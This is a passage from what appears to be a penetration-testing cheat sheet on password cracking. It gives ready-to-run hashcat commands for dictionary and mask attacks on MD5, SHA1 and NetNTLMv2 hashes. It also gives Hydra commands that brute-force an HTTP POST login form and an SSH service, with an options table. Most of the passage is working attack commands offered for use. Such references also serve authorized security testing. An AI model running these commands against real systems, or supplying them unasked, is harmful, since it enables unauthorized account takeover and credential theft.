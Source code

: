 Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status -O B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt

hashcat -m 5600 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

You can find `rockyou.txt` wordlist in [SecLists](#wordlists).

Brute force a hash with a specified placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status -O cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status -O 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -o hydra_results.txt -l admin -P rockyou.txt somesite.com http-post-form '/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!'
```

When cracking a web form login, you must specify `Login=Login:<expected_message>` to distinguish between a successful login and a failed one. Each expected message can vary between web forms.

Keep in mind that the `username` and `password` request parameters can be named differently.

Crack a Secure Shell login:

```fundamental
hydra -o hydra_results.txt -L users.txt -P rockyou.txt 192.168.8.5 ssh
```

You can find a bunch of wordlists in [SecLists](#wordlists).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -O | Use old SSL v2 and v3 |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |
| -P | Load several passwords from a file |
| -x | Password brute force generation (MIN:MAX:CHARSET), type "-x -h" to get help |
| -y | Disable use of symbols in bruteforce |
| -e | Try "n" null password, "s" login as pass and/or "r" reversed login |
| -o | Write found login/password pairs to a file instead of stdout |
| -f/-F | Exit when a login/pass pair is found (-f per host, -F global) |
| -M | List of servers to attack, one entry per line, ':' to specify port |
